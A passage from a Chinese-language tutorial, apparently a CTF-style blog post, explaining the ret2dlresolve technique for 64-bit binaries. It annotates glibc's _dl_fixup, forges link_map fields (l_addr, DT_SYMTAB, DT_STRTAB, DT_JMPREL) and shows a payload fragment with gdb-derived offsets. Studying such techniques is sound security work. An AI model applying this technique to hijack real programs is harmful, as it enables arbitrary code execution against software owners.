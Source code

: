 ```c
    {
      /* We already found the symbol.  The module (and therefore its load
     address) is also known.  */
        // 64位程序利用点，这里需要控制 l->l_addr 和 sym->st_value，从而构造出 value，即函数实际地址
      value = DL_FIXUP_MAKE_VALUE (l, l->l_addr + sym->st_value);
      result = l;
    }
      ···
    // 最后把 value 写入相应的 GOT 表项中
  return elf_machine_fixup_plt (l, result, reloc, rel_addr, value);
}
```

所以接下来就需要控制 link_map 中的 l_addr 和 sym 中的 st_value。

控制 l_addr 的值为 libc 中已解析的函数和目标函数的偏移值；

控制 st_value 的值为已经解析的函数的 got 表的位置。

#### 伪造 link_map

link_map 结构如下：

```c
struct link_map
  {
    ElfW(Addr) l_addr;		/* Difference between the address in the ELF
				             file and the addresses in memory.  */
    char *l_name;
    ElfW(Dyn) *l_ld;
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
    struct link_map *l_real;
    Lmid_t l_ns;
    struct libname_list *l_libname;

    ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
		      + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
    ···
  }
```

我们伪造的 link_map 只需要伪造 l_addr 和 l_info 数组中 `DT_SYMTAB`、`DT_STRTAB`、`DT_JMPREL` 的地址。其他任意填写

##### 伪造 l_addr

```python
    linkmap  = p64(offset & (2**64-1))              # 0x00 l_addr
```

![image-20221105010613976](https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221105010613976.png)

通过 gdb 和 ida 可以查出：

```python
DT_STRTAB_addr = link_map_addr + 0x68   # 0x0000000000600ea0
DT_SYMTAB_addr = link_map_addr + 0x70   # 0x0000000000600eb0
DT_JMPREL_addr = link_map_addr + 0xf8   # 0x0000000000600f20
```
